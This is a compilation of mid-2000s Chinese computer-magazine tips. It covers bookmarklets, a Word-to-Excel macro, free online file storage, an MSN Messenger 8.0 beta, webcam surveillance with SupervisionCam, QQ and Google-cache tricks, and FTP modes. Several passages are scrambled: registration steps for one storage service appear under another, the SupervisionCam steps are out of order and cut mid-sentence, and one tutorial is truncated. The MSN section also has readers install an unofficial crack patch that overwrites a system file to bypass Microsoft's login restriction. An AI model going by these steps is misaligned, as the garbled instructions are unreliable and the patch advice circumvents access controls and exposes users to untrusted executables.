第三步：当然我们不可能为每一个词汇都建立一个微型书签，所以要将关键词"翻译"替换成变量。首先给出完整的代码：javascript：Q=document.selection.createRange().text;if(Q){location='http://cb.kingsoft.com/search?lang=gb2312&s='+Q,}。上面的代码，第一句"Q=document.selection.createRange().text；"，是通过Javascript内置对象document所带的方法获取你在网页中选取的关键词，并赋值给变量Q。第二句"if(Q){location='http://cb.kingsoft.com/search?lang=gb2312&s='+Q,}"是一个判断，如果(if)你在网页中选择了关键词，也就是说变量Q成立，则执行上一步中我们试验过的那行代码进行搜索。当然，搜索代码中的关键词"翻译"，这里已经用变量Q替代了，这样一来，这段代码就具有了普遍性。

```
javascript：Q=document.selection.createRange().text;if(Q){location='http://cb.kingsoft.com/search?lang=gb2312&s='+Q,}
```

第四步：在地址栏中测试通过后，按照实例1的方法添加为微型书签就可以了。现在你就有了一个在线翻译工具，随时选取不认识的汉语词汇或英语单词，再单击本微型书签即可。

## Just Do It

大家可以根据上面方法，试试如何选择一个关键词后，直接进入百度（http://www.baidu.com）获得搜索结果。

## 饭来张口——微型书签何处寻

对于那些不了解Javascript的朋友，是不是就不能使用微型书签了呢？不必灰心，网上有的是微型书签资源，什么样的功能都可以找得到。下面推荐几个网站，右击网页中相应的微型书签链接，从右键菜单中选择"添加到收藏夹"命令即可。

- 网址：http://www.bookmarklets.com/
  简介：该网站收集了近百个微型书签，分成了Page Data（页面数据）、Navigation（导航）、Search tools（搜索工具）、Windows（窗口控制）、Page Look（页面控制）等七个大类，非常实用。
- 网址：http://www.squarefree.com/bookmarklets/
  简介：该网站收集有数百条微型书签，不但有详细的介绍，还标出了每个书签适应的浏览器版本。
- 网址：http://tantek.com/favelets
  简介：非常有特色的一个主题网页，它提供的微型书签主要针对网站设计工作，比如验证HTML或CSS代码的合法性，调整窗口大小等。
- 网址：http://www.imilly.com/bml.htm
  简介：可以说，现在大多数人首选的搜索引擎非Google莫属了，这个网站上收集的微型书签，有很多就是针对Google而设计的，让我们能更加方便地使用Google的各种功能。
- 网址：http://www.technorati.com/tags/bookmarklet
  简介：这是一个Bookmarklet（微型书签）主题网页，它并不是自己提供内容，而是从各大网站、Blog上搜索整理出相关的内容。单击相应链接，即可进入自己感兴趣的网站查询微型书签的技术资料了。

## 开卷见喜——CFan免费大礼包

网上的微型书签资源虽然丰富，不过比较零散，我们特意收集整理了一些实用的微型书签，制作成特别的网页文件（本文所提供的下载包中的"CFan微型书签.html"），大家只要通过IE的导入功能将其导入收藏夹中，就可以使用了，非常方便。

（北京 一页）

## 三步制作超酷Flash导航菜单

导航菜单是每个网站不可或缺的，效果最好的首推Flash风格的导航菜单。但对刚开始学习网页制作的朋友，使用Flash MX这样的专业工具实在有点困难。今天我要给大家介绍的Flash导航菜单制作工具，则简单易用，适合初学者。其实对于Flash老手，也完全可以借助此工具来简化制作任务。

| 项目 | 内容 |
|------|------|
| 软件版本 | 1.6.3.200 |
| 软件大小 | 2.07MB |
| 软件性质 | 共享软件 |
| 适用平台 | Windows 98/2000/XP |
| 下载地址 | http://www.skycn.com/soft/23555.html |

## 实例：打造我自己的'电脑爱好者'导航

第一步：安装并运行123 Flash Menu，首先打开的是向导对话框，这里点击"打开一个Flash模板"按钮，在随后的"选择模板名称"中根据自己喜好挑选一款自己中意的Flash导航菜单模板，如笔者选择的是"Business→Macro-style.fmp"，看看名称就知道是经典的Macro苹果样式的导航模板。这时在下面会显示你选择的模板预览，效果不错吧，OK，按下"确定"按钮。

第二步：软件主界面如图1所示，在左侧"菜单项"窗格中会以树状结构显示你的导航菜单内容，我们要做的就是更改菜单项属性。先点击树状结构的"Home"项，在下面"菜单项属性"面板中将"Text（文本）"项更改为"电脑爱好者首页"，并将下面的"URL（网址）"项更改为"http://www.cfan.com.cn"，"Target（目标）"项设置为"-self"（表示在当前窗口打开新网页）。按照以上方法依次更改各个菜单项属性使其符合自己的要求。



第三步：在右侧"菜单参数"中，可以对文字字体、大小、颜色、背景颜色等项目进行修改，方法很简单，点击后面的按钮，选择合适参数即可。要改变最后得到的Flash文件的大小，可以在"Flash大小"中对"Flash宽"和"Flash高"进行更改，一般取默认值即可。在"页面属性"中可以对背景色进行更改，勾选"透明"项可以让你的Flash导航菜单更加晶莹剔透。设置完毕，点击工具栏上的"保存方案"按钮保存当前设置。最后单击工具栏上的"发布"按钮，在"发布设置"对话框中，如图2所示，输入"页面标题"并选择好保存路径，再点击"发布"即可。



（河北 闫艳力）

## Word表格批量变Excel电子表

在日常办公应用中，各种各样的调查表，如人事简历表、审批表等，都经常被设计成Word格式的。然而，要对几十甚至上百份格式一致、内容不同的大量的Word表格进行汇总、计算、排序、分组等管理工作时，显然用Word操作不及Excel方便。那如何快速把大量复杂的Word表格转换成Excel电子表格呢？下面，就以Word格式的《×××企业人员素质调查表》（见图1）生成Excel电子表格（见图2）为例，进行详细说明。




1. 清除表头文字"×××企业人员素质调查表"的方法比较简单，就是在Word中，执行"编辑→替换"命令，然后在"查找内容"中输入上述表头文字，"替换为"中则什么都不输入，最后点击"全部替换"按钮即可。
2. 接下来清除分段和空格。在替换对话框的"查找内容"框中输入"^p"（不含引号，下同）。"^p"为段落标记字符，也可以通过点击替换对话框中的"高级"按钮展开对话框，再点击"特殊字符"按钮来输入它。"替换为"框中为空，然后点击"全部替换"（见图3）。在"查找内容"栏输入"^w"（"^w"为空白区域标志符，在"特殊字符"中也可以找到），"替换为"栏为空，点击"全部替换"按钮。

第二步：接下来将利用Word的"表格转换成文字"功能把所有表格都转换成文字。首先选中一个表格，然后执行"表格→转换→表格转换成文本"菜单命令，在打开的对话框中点击选中"其他字符"项，并在后...


## 表格自动转文本

第二步中的方法虽然能将所有的表格转换为文本，但是效率太低了。那么如何快速完成表格转文本的工作呢？经过笔者的实践，利用Word宏命令可以轻松实现。方法如下（下面代码，可从http://www.newhua.com/cfan/200523/macro.rar处下载）：

1. 执行"工具→宏→Visual Basic编辑器"菜单命令打开VBA编辑器，展开"Normal"项，双击其下的"ThisDocument"，然后在右侧打开的编辑区输入以下代码。

```
Sub Macro1()
Selection.WholeStory
Selection.Find.ClearFormatting
With Selection.Find
.Text = "企业名称" '注：这里这由用户根据表格内容确定。
.Replacement.Text = ""
.Forward = True
.Wrap = wdFindAsk
.Format = False
.MatchCase = False
.MatchWholeWord = False
.MatchByte = True
.MatchWildcards = False
.MatchSoundsLike = False
.MatchAllWordForms = False
End With
Selection.Tables(1).Select
Selection.Rows.ConvertToText Separator:=wdSeparateByDefaultListSeparator, NestedTables:=True
For i = 1 To 9 '注：这里是文档中的表格总个数减1，本例中共10个表格。
Selection.Find.Execute
Selection.Find.Execute
Selection.Tables(1).Select
Selection.Rows.ConvertToText Separator:=wdSeparateByDefaultListSeparator, NestedTables:=True
Next i
End Sub
```

2. 关闭VBA编辑器，刚才输入的代码会自动保存。在Word主界面，点击菜单命令"工具→自定义"，转到"命令"选项卡，在左侧列表中点选"宏"项，再将右侧的Macro1宏拖到Word菜单工具栏空白处（见图5），Word将添加一个以Macro1命名的按钮。右击该按钮，将按钮命名为"表格转换文本"，最后关闭自定义对话框。

以后，只要点击"表格转换文本"按钮，Word就会自动将文档中全部表格转换成文本了。

第三步：经过上述处理，Word文档将如图6所示。现在还需要对原来每个表格内容重新进行整理，使其成为各自独立的段落。

1. 执行"编辑→替换"菜单命令打开替换对话框，在"查找内容栏"输入"^P"（不含引号，下同），"替换为"栏为"@"，点击"全部替换"按钮。
2. 重复上面的操作，在"查找内容"栏输入"企业名称@"，"替换为"栏为"^p"，点击"全部替换"按钮。最后结果如图7所示，然后将该文档另存为纯文本文件，退出Word。

第四步：启动Excel，执行"文件→打开"菜单命令，打开刚才保存的纯文本文件，将出现如图8所示对话框，选中"分隔符号"，然后单击"下一步"。

第五步：在随后显示的向导界面中，选中"其他"项，然后在其右侧框中输入字符"@"，这时可以看到文本文件的数据已经被整齐地划分开了（见图9）。单击"下一步"，最后点击"完成"，即可将文本文档转换成了Excel电子表格了。

这时转换的数据格式可能还不是十分理想，你可以根据实际需要再作调整，比如删除多余的列，设置单元格格式，添加表头等工作。对Excel表格的操作，这里就不作详细介绍了。

> （河北 陈伟）

## 没有FTP一样可以玩网络共享——网络上的共享存储盘

现在网络硬盘大概分成两种，一是像QQ、网易U盘这类的，只有知道密码才能下载，这种硬盘通常空间较大，速度快，文件为永久保存；另一种是上传文件后，任何人都可以通过提取码将文件提取出来并进行下载，你的问题就需要后面这种网络硬盘，本文也主要介绍后一种。

虽然现在网络上免费网络硬盘也有很多种，面对各种各样的网络硬盘，究竟使用哪一款呢？这主要看容量、单附件大小、传输的速度，操作是否简单等等，下面我们就来看看现在几款网络硬盘，帮助大家在选择合适的网络硬盘。

## 人气最高的网络硬盘

现在，有很多人都在使用Mofile网络U盘，无论是从速度和容量来说，这都是很不错的选择。

Mofile网络U盘分为保管箱和接力站两部分，其中保管箱里面的文件是永久性保存，但容量只有32MB大小，只能保存一些文档、图片类的文件。而接力站里面的文件可以保存3天，不过容量为1024MB，可以保存大一些的电影、视频之类的文件。

在使用Mofile网络U盘之前先要进行注册，非常简单，只需根据上面的要求进行填写就能完成注册（见图1）。

1. 上传
   登录Mofile账号，点击上侧的"我的文档→上传文件"按钮，然后根据需要选择三种上传方式中的一种（见图2）。目前Mofile还没有提供批量上传功能，只能一个一个上传，上传速度在55KB左右。每个文件上传成功后都出现提取码（见图3）。
2. 下载
   将记下的16位提取码公布后，其他人只需登录网站（也需注册），点击上面的"提取文件"按钮，输入文件的16位提取码，就能进行下载了。

## 有登录域名的网络硬盘

富科网络硬盘是富科商务公司提供的网络硬盘，整体速度还算可以，而且提供了200MB的空间。在使用富科网络硬盘之前先需要进行注册，注册方法很简单，只需输入用户名、密码及邮箱即可完成注册，之后，就可以到富科网络硬盘的主页面来进行登录。

和其他网络硬盘不同的是，富科网络硬盘在初始状态下并没有任何文件夹，需要我们自行来进行建立。而且还会提供一个http://注册名.92188.com的二级域名，这样就更方便我们进行登录。

1. 上传
   首先要点击新建文件夹按钮来建立文件夹，这里可以根据自己的实际需求来进行添加（见图4）。选择文件夹，点击"上传文件"按钮，设定好上传文件的个数（见图5），进行上传即可。这里要注意一点的是，富科网络硬盘并不是所有文件都可以进行上传，可以上传的文件有：EXE、ZIP、RAR、MID、GIF、HTM、HTML、JPEG、JPG、BMP、AVI、MP3、TXT、SWF、RM、DOC、CHM、WMA和WMV。在上传的过程中有进度提示，也有上传速度显示，传送速度为30KB左右。
2. 下载
   勾选需要设置提取码的文件，然后点击如图4所示的"提取码"按钮，为这些文件设置提取码，再告诉其他好友你的二级域名及输入提取码后提取下载。

## 存储空间无限的网络硬盘

现在有些网上的朋友喜欢都用FileFront来保存文件，确实FileFront支持的空间为无限大，而且上传和下载的速度也比较快，但有一点遗憾的是英文界面，并且操作起来有一些烦琐。

我们需要登录邮箱。把文件以附件的形式上传，上传完之后点击保存草稿，接下来将草稿邮件转移到收件箱。

然后回到网络E盘中，在邮箱管理中选择"管理"这项，选择"自动添加"，这样能够将刚才上传的附件搜索到（见图9）。搜索到附件之后，进入文件管理系统这项，根据自己的实际情况来建立文件夹，然后将附件转移到相对应的文件夹即可。

1. 上传
   在文件管理的主界面中，要选择"Manger Files & Directories"项（见图7），进入文件夹管理界面中。先要点击"Create Folder"按钮来新建目录（见图8）。
2. 下载
   用户通过"http://hosted.filefront.com/用户名"的方式访问你的网络硬盘界面后，就可以下载到文件了。

## 将邮箱变为网络硬盘

网络E盘跟其他的网络硬盘有很大的区别，它是通过其他邮件的空间来上传附件的，而自己并没有独立的空间。不过网络E盘可以以提取码的形式直接下载邮箱上的附件，并不直接登录邮箱，这样邮箱里面的东西可以和其他人进行分享。

1. 上传
   首先要在网络E盘中进行注册，接下来进入邮箱管理项，来添加邮箱，要注意的是网络E盘只支持@126.COM、TOM.COM和21CN.COM这三种类型的邮箱。添加完邮箱之后，先要对FileFront进行注册，注册比较简单，只需输入用户名、密码、邮箱和生日即可（见图6）。注册成功之后，就可以在FileFront的主界面进行登录。此时网络硬盘访问地址是"http://hosted.filefront.com/用户名"。另外还可以单独申请一个二级域名来进行访问。更改后可以用http://你填写的二级域名.filefront.com来访问你的硬盘，也可以用原来那个形式域名访问。
2. 下载
   先选取文件，然后点击"生成提取码"按钮（见图10），这样就会自动生成一个提取码。我们在网络E盘的首页输入提取码，就可以进行下载。与其他网络硬盘不同的是，网络E盘的上传和下载速度取决于邮箱的速度，如果自己的邮箱速度快，那么相对应的上传和下载速度就快一些。不过要提醒大家一点的是，如果要是共享的文件被下载过于频繁，或同时被多线程下载就可能被邮箱提供商冻结掉，这点一定要注意。

## 可以直接下载的网络硬盘

Myfilehut是一个国外的网络硬盘，虽然界面是英文的，但操作起来非常的简单。

首先我们要进行注册，输入用户名和密码，此外还要输入邮箱，这里邮箱一定要输入真实的邮箱，否则收不到激活信息。注册完之后登录自己的注册邮箱，然后找到发送的激活邮件，点击上面的链接，这样就可以激活Myfilehut网络硬盘了。

1. 上传
   进入Myfilehut网络硬盘之后，点击"YOUR FILES"按钮（见图11）。然后点击"Create new folder"按钮来建立文件夹，点击Create按钮就完成建立。文件夹建立好之后，可以直接点击进入，里面出现上传文件的菜单，一次可以同时上传三个文件，这里文件附件的大小为20MB，选择好上传的文件之后，点击"Upload files"按钮开始上传。
2. 下载
   Myfilehut网络硬盘在上传的时候并没有提供上传的速度和剩余时间，不过预测速度为每秒50KB左右，速度还算比较快的。上传完毕之后，就会以列表的形式显示，我们随时都可以点击文件来进行下载（见图12）。并且可以直接获得文件的实际下载地址，把文件的地址告诉给朋友就可以直接进行下载。支持Flashget等下载软件，但也只支持单线程下载。

## 总结

除了上面这些外，网络硬盘还有很多，但大多有这样或那样的限制，我们这里就不再多做总结，给下面的表格供大家选择时参考。选择哪款，哪款适合你，相信你已经心里有了答案。

（二手三好街）

# 终于有了群功能！MSN 8.0就要来啦！

MSN Messenger 7.5刚发布不久，微软便紧锣密鼓地开始了Messenger 8.0的测试。测试版目前还没有对用户开放下载，而且即使用户通过其他途径得到了测试版本，但是没有微软授权的ID同样无法正常登录。笔者在第一时间拿到了测试版本，并且利用高手制作的破解补丁，终于使用上了号称功能无比强大的MSN Messenger 8.0。那到底有什么激动人心的功能值得我们期待呢？

# 下载及安装

首先，至 http://g.msn.com/1csbeta/Mess80_EN 下载8.0测试版本的安装程序，安装完成后，如果此时你直接登录，会发现始终停留在登录界面，无法顺利进入。不过，只要我们到 http://www.cnbeta.com/ugmbbc/wlmpatch.rar 下载一个登录补丁，就可以突破微软的封锁，提前享受微软的这份大餐了！

将下载得到的补丁文件解压缩后，将其 ocx 文件拷贝至 X:\Windows\SYSTEM32 目录下（其中 X 为操作系统所在的盘符）将原文件覆盖，然后依次单击“开始→运行”，在运行框中输入 regsvr32 \Windows\system32\MSWINSCK.OCX，对刚才拷贝的新控件进行注册，回车后系统会提示注册成功。然后我们就只要双击补丁文件中的 EXE 可执行程序，在弹出的程序主界面中点击“Patch”按钮给 msnmsgr.exe 打上补丁。如果操作成功，程序会给出相应的提示，最后我们就只要点击下方的“Run Server”按钮运行服务器就可以完成打补丁的工作了（见图1）。



# 小提示

在登录MSN之前首先记得要点击“Run Server”按钮启动服务器，而且每次离线之后想要再次登录都必须先点击该按钮，同时在使用 MSN Messenger 8 的过程中该程序都要保持运行状态。

# 新特性

一进入到 MSN Messenger 8 的用户面板，我们就会发现新版 MSN 8.0的结构显得更为合理，更方便用户查看资料和进行各项操作。当然，更让我们感兴趣的便是，它具有突破性的新功能了！

# 1.群组功能

传得沸沸扬扬的群组功能终于在 8.0 测试版中浮出了水面，从此我们就可以像 QQ 群一样，在 MSN 中和好友开 Party 了！

大家或许已经在使用 MSN Messenger 7.5 的好友分组功能，而 8.0 测试版直接将我们已经存在的好友分组默认为用户群，只要将鼠标停留到想要发送消息的组名称上点击右键，我们就可以看到一个名为“Send an Instant Message to this Group”的选项，这就是给群里面所有的人群发消息的功能（见图2）。单击该选项就可以跟群里面在线的好友进行消息的群发及讨论了。



如果你希望自己重新创建群，可以在 MSN 面板上单击“Contacts → Create a Group”，打开创建群对话框，设定好要创建的群的名称后，在联系人列表中勾选想要邀请的好友。如果对方还没有在你的好友名单中，则可以在下方的输入框中输入其电子邮件地址来邀请加入。最后单击“Save Group”按钮即可完成群的创建工作了（见图3）。



# 2.离线消息

无法给离线的联系人留言一直是 MSN Messenger 受用户诟病的方面之一，虽然微软随后推出了移动留言功能，但又有哪位用户愿意冒着风险登记自己的手机号码呢？许多用户因此而转投了 QQ 的“怀抱”，毕竟 QQ 的离线留言功能的确非常的实用。

或许是微软终于听到了用户的呼声，离线消息也在 8.0 测试版中初现端倪。以往我们在 MSN 中双击离线联系人头像时，会自动调用邮件客户端软件来向该用户发送电子邮件，而现在则可以直接打开和该联系人的对话窗口，和 QQ 一样我们可以给对方离线留言（见图4）。如果对方使用的也是 8.0 版本，那么在登录后就可以收到我们的消息了。



# 3.备注功能

恐怕没有人能够将电子邮件地址或者一串数字和某个好友一一对应起来，因此聪明的腾讯在其 QQ 新版中提供了用户备注功能，这样就不会出现好友换昵称之后“形同陌路”的尴尬了。新版 MSN 也提供了类似的功能，每个联系人的卡片不再是以往只能进行查看的状态，增加了自定义编辑栏，这样我们就可以根据自己的习惯和方式对联系人进行资料更改，而且修改完成的资料会及时地显示在该联系人的卡片中。

将鼠标移到联系人头像上，在出现的功能按钮最右侧单击双箭头，即可弹出卡片对话框，联系人的所有相关信息都显示在该卡片中，包括个人信息（Personal）、工作信息（Work）等。切换至“Notes”选项卡，单击“Edit”按钮即可添加该好友的备注了（见图5）。



# 小提示

单击卡片右下角的按钮还可以查看该好友的 MSN Spaces 中最新的内容。

# 4.共享文件夹

如果你想把刚刚从数码相机中导出的美图和好友分享，还是通过将图片打包发送呢？当你有了 MSN 8.0 之后，就不再需要这么麻烦了，你只要将所想要共享的图片目录直接拖拽到共享对话框中，然后点击 OK 即可。

创建共享文件夹的方式也很简单，只要在 MSN 面板上依次单击“Actions → Create or Open a Sharing Folder”，在弹出窗口中选择共享的好友，然后单击“Ok”按钮即可在“我的电脑”下创建一个共享文件夹，接下来要做的便是往该文件夹中添加共享的文件了（见图6）。在共享文件夹里，无论何时添加、修改、删除文件，都将和共享的人同步这些更改。在共享文件更改时，Messenger 中的共享文件图标会闪烁，提示文件更新。这种方式应该说比起文件的传送来说更为简单和方便，我们对共享文件夹的操作就像在 Windows 中一样可以拖放、使用不同文件视图、拷贝、粘贴等等，而且在联机和脱机时都可以管理文件非常的方便。



# 小提示

如果你希望在向 Messenger 联系人名称拖拽文件时将该文件直接放入共享文件夹中，则可以在 MSN 面板上依次单击“Tools → Options → Sharing Folders”，在右侧的窗口中勾选“Automatically create Sharing folders when I send files to my contacts”复选框即可（见图7）。



小编有话说：除上述新特性之外，MSN Messenger 8.0 测试版还支持断点续传、离线语音留言、动态图片显示等功能。可以看出，来自 QQ 等众多即时通讯软件的挑战，微软也开始学习竞争对手的一些特色功能，至于正式版到底能否带给用户更大的惊喜，就让我们拭目以待吧！

(福建 柳庄头)

# 谍影重重3之摄像头监控

摄像头可以说是现在电脑中的“标配”了，可能大家都是用来上网视频聊天，其实利用摄像头的视频功能，再加上一款专业的监控软件SupervisionCam，完全可以组建一套专业的家庭保安录像系统，对家中的重要物品进行无人值守监控，一旦有人接近摄像头监控范围，电脑就会发出强烈的警报声音，并自动将被监控画面录制保存到硬盘，甚至可以通过邮件、手机短信给你发送警报，你也可以远程查看监控画面。怎么样？是不是很专业？要知道这样一款专业设备单独购买的话是需要几千元的，现在我们利用普通的摄像头就能实现，以后出门在外，就不用再担心家中贵重物品安全了。

## SupervisionCam小档案

- 软件版本：3.05.14
- 软件大小：1083KB
- 软件性质：共享软件
- 适用平台：Windows 9x/2000/XP
- 下载地址：http://gznc.onlinedown.net:82/files/setupsc.exe

## 无人值守自动监控

安装SupervisionCam后，程序会自动运行，首先会弹出设置界面，在“Motion Detection”（监视器检测）选项卡中的“Settings video source”（设置影像来源）下拉框中选择你的摄像头型号（见图1），在右下角即可立即看到摄像头画面，调整好摄像头位置和方向（可以使用USB延长线来提高位置摆放的灵活性），以保证画面中可以清晰地看到被监控的对象，例如门窗或者保险柜等。单击“Video Capture Pin”按钮可以设置摄像头画面分辨率、帧率等参数，一般应设置为320×240，帧率30；单击“Video Capture Filters”（视频过滤）按钮则可以设置摄像头画面亮度、对比度、背光补偿等参数，以使画面效果最好。下面的“Enable Motion Detection”（允许运动检测）选项默认是选中的，这是SupervisionCam最重要的功能，它可以根据监控范围内有无物体运动来判断是否触发警报（即有人进入），触发条件在“Dynamic trigger”（动态触发器）栏中设置，这里的值越小就越敏感，一般建议设置为60%以上，以避免过度敏感，这里还有一个“Compare frames each”（帧间隔）选项，它用来设置触发警报时自动保存监控画面的时间间隔，程序默认为0.5s捕捉一张画面。



打开“Play Sound/Run Program”选项卡，首先选中“Play sound when a motion was detected”选项，这样当SupervisionCam发现被监控范围内有运动物体时，就会发出警报声音，单击下面的“Browse”按钮选择要播放的声音文件，这里可以选择软件内置的“Police.wav”，也就是警车声音。另外也可以选择“Run a program when a motion was detected”选项，让SupervisionCam在触发警报时自动运行指定的应用程序。

打开“Save Image”（保存画面）选项卡，“Save Image Settings”下面的“Destination”（目标路径）栏可以设置捕捉的画面文件保存路径，默认保存在SupervisionCam安装目录下，建议重新修改目录到非系统分区（见图2），以避免大量存盘文件导致磁盘空间不足而使系统运行出现问题，下面还可以选择图片格式，建议选择体积更小的JPG格式。再打开“AVI”选项卡，选中“Capture AVI started when a motion is detected”（有活动物体时开始捕捉）选项，并单击“Change”按钮选择一种视频压缩格式，建议选择体积较小的“Microsoft Windows Media”，选中“Add Sound”选项可以同时录制声音，不过由于SupervisionCam录像的帧率较低，效果不是很好，一般不建议使用该功能。最后单击“确定”按钮返回程序主界面。

### 小提示

在“Activity Timing”选项卡中我们还可以设定SupervisionCam按照设定的计划来执行，例如设置监控自动激活的时间等，更适合无人值守模式。




发送是否成功。SupervisionCam发送的警报邮件中还会包含触发警报时的现场图片，在右边的“Attach max images”（）栏中可以设置附带的图片数量。

### 小提示

现在许多邮箱都提供了邮箱到达后手机短消息通知功能，建议在接收SupervisionCam邮件的邮箱中启用该功能，这样当SupervisionCam发现监控现场有可疑现象而发送电子邮件警告时，你就可以通过手机短信最快接收到警报。

## 第二步：自动上传现场图片

打开“HTML Page/Server Upload/Dial In”选项卡，下面的“Save Upload”（保存后上传）项中就是用来设置上传参数的，首先选中“Start Upload when an image was saved”（文件保存后自动上传）选项，也就是当SupervisionCam出现警报情况而保存新的图片时，就立即进行上传，下面可以选择“FTP”方式，并设置好FTP服务地址、目录以及账号、密码等参数即可，单击“Test”按钮可以进行上传测试。由于SupervisionCam生成的监控画面图片文件体积很小，每张仅几KB，所以对上传空间并没有太大的要求。

经过以上两个步骤的设置后，当SupervisionCam监控现场出现警报现象，就会立即通过邮件或手机短信通知你，收到警报消息后，你就可以立即登录FTP服务器查看监控捕捉的画面，或采取其他措施。

SupervisionCam还有一个更厉害的功能，可以让你在远程实时查看监控录像，就像坐在家中一样。首先在主窗口中单击菜单“Tools→Program settings”，打开“HTTP Server Settings”选项卡，选中“Enable HTTP server”（启动HTTP服务器）选项（见图4），为了防止别人随意查看，可以再选中“Allow directory listing”选项，并在下面的“Password”栏中输入密码，单击“确定”按钮完成设置。然后在命令行窗口中输入“ipconfig”，记下家中电脑的IP地址。

## 远程“偷窥”更安全

SupervisionCam还提供了强大的远程监控功能，让你在外面也能随时了解到家中的监控情况，如果出现警报情况，它可以使用信使服务、邮件等方式通知你，并可以把捕捉到的画面发送到指定的网络存储空间，甚至可以远程在线查看实时监控录像。

### 第一步：发送警报通知

打开“Send Message/Mail”（发送信息）选项卡，选中“Send a message when a motion is detected”（有活动物体时发送信息）选项，可以让SupervisionCam通过局域网信使服务功能向其他计算机发送消息，在下面的“Computer”栏输入计算机名称，并在“Message”栏输入消息内容即可，单击“Test”按钮可以测试效果，这种情况并不适合家庭监控。SupervisionCam还可以通过发邮件的方式进行警报通知。选择“Send a mail when a motion is detected”（有活动物体时发送邮件）选项（见图3），并在下面设置好邮箱类型、账号、密码、发送服务器、邮件主题、邮件内容等参数，同样单击“Test”按钮可以测试邮件



好了，现在只要在任何能够上网的电脑中打开浏览器，输入用来监控的电脑IP地址，例如“http://222.135.*.*”，根据提示输入密码后单击“OK”按钮，即可看到家中的摄像头当前拍摄的监控画面（见图5），“Number of saved images”（保存图像数量）显示的是已经保存的图片数目，如果数目较大的话，就要注意了，这时可以单击“Open protocol”后面的链接，查看已经保存的现场图片内容。最重要

# 改动文件格式 妙用QQ聊天窗口

Q友们应该知道，QQ的好友聊天窗口和TM交谈窗口的底部都有“聊天记录”（TM为“交谈记录”，下同）按钮，点击后可以弹出曾经与此好友聊天内容的面板窗口。但你千万别忽视这个小面板窗口，因为它还可以有一些小的技巧。

# 1.字体格式快速“拿来”

当你在和某好友的对话窗口或群聊窗口中看到对方设置的字体格式很合自己的口味，是不是有更改字体格式的冲动？其实只需点击“聊天记录”按钮，在聊天内容面板窗口中双击此好友的某发言（见图1），点击“关闭”按钮退出聊天窗口。新打开某好友的聊天窗口，在输入框中输入文字，怎么样，字体格式是不是魔术般应用刚才的格式了！

# 小提示

在比较新的QQ聊天内容面板窗口里，切记要切换成传统模式（即点选树状文件夹图标）才能双击某聊天记录。



# 2.记录里的段落符

有时好友发送一篇文章过来，在聊天窗口中复制粘贴到记事本等文本程序，才发现并不是标准的段落符（在记事本显示为一黑块特殊字符），这时就要手动对这些段落进行分段。其实并不用这么麻烦，同样点击“聊天记录”按钮，在聊天内容面板窗口中双击文章的对话记录，此时文章在输入框中显示，直接复制这里的内容，粘贴到记事本就可以正常分段了（见图2）。



以上两则技巧在QQ2005正式版、TM2005正式版测试通过。

# 抢修Google牌“照相机”

搜索引擎提供的“网页快照”功能，对于查找一些旧网页或者网站服务器暂时无法访问的页面非常有用。不过Google提供的“网页快照”功能却常年无法访问，给很多Google的用户带来了麻烦。之前网上流传着多种解决方案，不过都不是非常理想，下面笔者给大家介绍一款Maxthon/GreenBrowser，它能迅速让Google牌“照相机”起死回生。

- 第一步：首先到 http://202.113.13.169/site/genex/blog/files/GoogleCache.rar 下载这个名为GoogleCache的Maxthon（在GreenBrowser也可以使用）插件。
- Maxthon用户：将压缩包解压缩到Maxthon程序目录下的plugin\GoogleCache目录，退出Maxthon，启动Maxthon，程序自动提示新的插件，点击确认即可。
- GreenBrowser用户：将压缩包解压缩到GreenBrowser程序目录下的plugin\GoogleCache目录，启动GreenBrowser，在“工具”菜单的“扩展工具栏”里面运行“设置扩展工具栏”，在“命令”后的“…”按钮中选择本插件。点击“插入”按钮增加本插件。

- 第二步：为了减少操作，最好将该插件设置为自动运行。以GreenBrowser为例，选择“工具→扩展工具栏→设置扩展工具栏”菜单，勾选“工具”菜单的“扩展工具栏”的“自动运行所选插件”。
设置完毕后该插件就“神不知，鬼不觉”地工作了。只需按照正常的操作——打开Google搜索结果页面，点击“网页快照”链接查看即可。为了保险起见，建议大家在点击前，首先将鼠标悬停在“网页快照”超链接上，观察状态栏中显示的链接地址是否包含“search?q=cache:”，尤其注意那个“&”，假若没有，请手动运行本插件。这种情况一般出现在刷新页面之后。

# 注意

★在页面未加载完成前不要点击“网页快照”链接，因为链接地址还没有得到修正，如果这时点击，可能触发IP屏蔽，导致一段时间内无法访问网页快照。
★在打开的快照页面上部分的Google框架中有一个“缓存文本”或“cached text”，请大家不要点击使用，同样容易导致IP屏蔽。

# 你知道吗？

不点链接也能看快照
Google搜索引擎中有一条命令，可以用来搜索服务器上的页面缓存。假设你要打开的网页地址为“http://www.cfan.com.cn”，如果这个网址已经不能打开（这个可能性不大），需要使用网页快照功能时，可以在Google首页的搜索框中输入“cache:www.cfan.com.cn”，回车后就可以打开该页面的快照了，非常方便。假如这个网页经常处于无法打开的状态，你可以把这个快照页面加入收藏夹，下次直接打开收藏夹中的网址即可。
（四川 山村野姑）

# 你来我住 话FTP服务模式

在使用FTP客户端下载软件（如FlashFXP、迅雷FTP探测器等）时，一般要设置一下FTP服务器的服务模式。FTP服务器有两种服务模式，一种叫端口模式（即Port），另一种叫被动模式（即PASV）。二者的工作过程不同。
Port（主动）方式的连接过程是：客户端（即你的电脑）向服务器的FTP端口（默认是21）发送连接请求，服务器接受连接，建立一条命令链路。当需要传送数据时，客户端在命令链路上用PORT命令告诉服务器：“我打开了XXXX端口，你过来连接我”。于是服务器从20端口向客户端的XXXX端口发送连接请求，建立一条数据链路来传送数据。
PASV（被动）方式的连接过程是：客户端向服务器的FTP端口（默认是21）发送连接请求，服务器接受连接，建立一条命令链路。当需要传送数据时，服务器在命令链路上用PASV命令告诉客户端：“我打开了XXXX端口，你过来连接我”。于是客户端向服务器的XXXX端口发送连接请求，建立一条数据链路来传送数据。
Port模式的缺点是不能穿越防火墙传输数据。对于局域网内通过网关上网的用户，它告诉服务器自己打开了一个端口，但当服务器真的连接这个端口时，会连接到网关上，而不能直接连接到局域网内的客户机上，因此无法传送数据。而PASV模式则解决了这一问题，它是由客户机去连接服务器上指定的端口，因此可以成功地透过防火墙登录FTP服务器下载数据。但是，PASV模式却无法穿越服务器端的防火墙。好在服务器端的处理相对简单，只要合理配置防火墙即可。因此，目前大多数FTP服务器都采用PASV模式。如图所示，是FlashFXP配置窗口，其中“使用被动模式”（即PASV）已默认选中，你也可以根据情况取消对它的选择。
（河北 小田）



的功能则需要单击左上角的“SupervisionView”链接下载软件，运行下载后的软件，并在“server”栏中输入家中电脑的IP地址以及设定的密码，即可查看实时监控录像画面（见图6），注意第一次打开软件时，画面比例可能会变形，右击画面，选择“View→Size→100%”，即可。

# 小提示

